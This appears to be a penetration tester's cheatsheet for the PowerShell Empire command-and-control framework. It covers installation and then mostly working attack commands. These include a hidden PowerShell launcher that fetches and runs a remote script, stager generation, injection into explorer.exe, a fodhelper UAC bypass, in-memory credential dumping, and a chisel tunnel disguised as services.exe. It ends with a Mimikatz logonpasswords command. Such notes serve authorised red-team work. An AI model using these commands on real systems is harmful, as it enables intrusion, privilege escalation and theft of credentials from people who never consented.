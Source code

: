 # Empire

* [https://xakep.ru/2020/06/03/powershell-empire/](https://xakep.ru/2020/06/03/powershell-empire/)




## Install

* [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)

```
$ git clone --recursive https://github.com/BC-SECURITY/Empire.git
$ cd Empire
$ sudo ./setup/install.sh
$ sudo poetry install
```

To compile C# agents ([Covenant](https://github.com/cobbr/Covenant) and [Sharpire](https://github.com/0xbadjuju/Sharpire)) [install](https://docs.microsoft.com/en-us/dotnet/core/install/linux-debian#supported-distributions) .NET SDK 3.1:

```
$ wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
$ sudo dpkg -i packages-microsoft-prod.deb
$ rm packages-microsoft-prod.deb

$ sudo apt-get update; \
  sudo apt-get install -y apt-transport-https && \
  sudo apt-get update && \
  sudo apt-get install -y dotnet-sdk-3.1

$ sudo apt-get update; \
  sudo apt-get install -y apt-transport-https && \
  sudo apt-get update && \
  sudo apt-get install -y aspnetcore-runtime-3.1
```




## Run

```
$ ./ps-empire server [--restip 127.0.0.1 --username snovvcrash --password 'Passw0rd!']
$ ./ps-empire client
```

Reset the database:

```
$ ./ps-empire server --reset
```




## Cheatsheet

Basic PowerShell launcher string:

```
PS > powershell -NoP -sta -NonI -W Hidden -Exec Bypass -C "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/launcher.ps1')"
```

Prepare a listener:

```
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: uselistener/http) > set Name http1
(Empire: uselistener/http) > set Host 10.10.13.37
(Empire: uselistener/http) > set Port 80
(Empire: uselistener/http) > execute
```

Generate a PowerShell stager:

```
(Empire: listeners) > usestager multi/launcher
(Empire: usestager/multi/launcher) > set Listener http1
(Empire: usestager/multi/launcher) > set OutFile pwsh.ps1
(Empire: usestager/multi/launcher) > generate
```

Generate a C# stager:

```
(Empire: listeners) > useplugin csharpserver
(Empire: useplugin/csharpserver) > set status start
(Empire: useplugin/csharpserver) > execute
(Empire: useplugin/csharpserver) > usestager windows/csharp_exe
(Empire: usestager/windows/csharp_exe) > set Listener http1
(Empire: usestager/windows/csharp_exe) > set OutFile csharp.exe
(Empire: usestager/windows/csharp_exe) > generate
```

Re-inject into an interactive process (e. g., `explorer.exe`):

```
(Empire: listeners) > agents
(Empire: agents) > rename LKH7SD3V A1
(Empire: agents) > interact A1
(Empire: A1) > sysinfo
(Empire: A1) > shell Get-Process explorer
(Empire: A1) > psinject exch <EXPLORER_EXE_PID>
```

Bypass UAC to get a high integrity process:

```
(Empire: A1) > shell whoami /priv
(Empire: A1) > usemodule privesc/bypassuac_fodhelper
(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http1
(Empire: powershell/privesc/bypassuac_fodhelper) > run
```

Execute a PowerShell script from memory (e. g., [`Invoke-SharpSecDump.ps1`](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1)):

```
(Empire: A1) > shell whoami /priv
(Empire: A1) > usemodule management/invoke_script
(Empire: powershell/management/invoke_script) > set ScriptPath /home/snovvcrash/tools/dump.ps1
(Empire: powershell/management/invoke_script) > set ScriptCmd Invoke-SharpSecDump -C "-tager=127.0.0.1"
(Empire: powershell/management/invoke_script) > run
```

Start a process in the background (e. g., [chisel](https://github.com/jpillora/chisel) SOCKS proxy):

```
(Empire: A1) > shell IWR http://10.10.13.37:8080/chisel.exe -OutFile C:\Windows\services.exe -UseBasicParsing
(Empire: A1) > shell Start-Process -NoNewWindow -FilePath C:\Windows\services.exe -ArgumentList "client 10.10.13.37:8000 R:socks"
```

Invoke a custom Mimikatz command:

```
(Empire: A1) > usemodule credentials/mimikatz/command
(Empire: powershell/credentials/mimikatz/command) > set Command '"privilege::debug" "token::elevate" "ts::logonpasswords" "exit"'
(Empire: powershell/credentials/mimikatz/command) > run
```




## Plugins

* [https://github.com/BC-SECURITY/SocksProxyServer-Plugin](https://github.com/BC-SECURITY/SocksProxyServer-Plugin)
* [https://github.com/BC-SECURITY/ChiselServer-Plugin](https://github.com/BC-SECURITY/ChiselServer-Plugin)




## Customizing Agents

* [https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/](https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/)
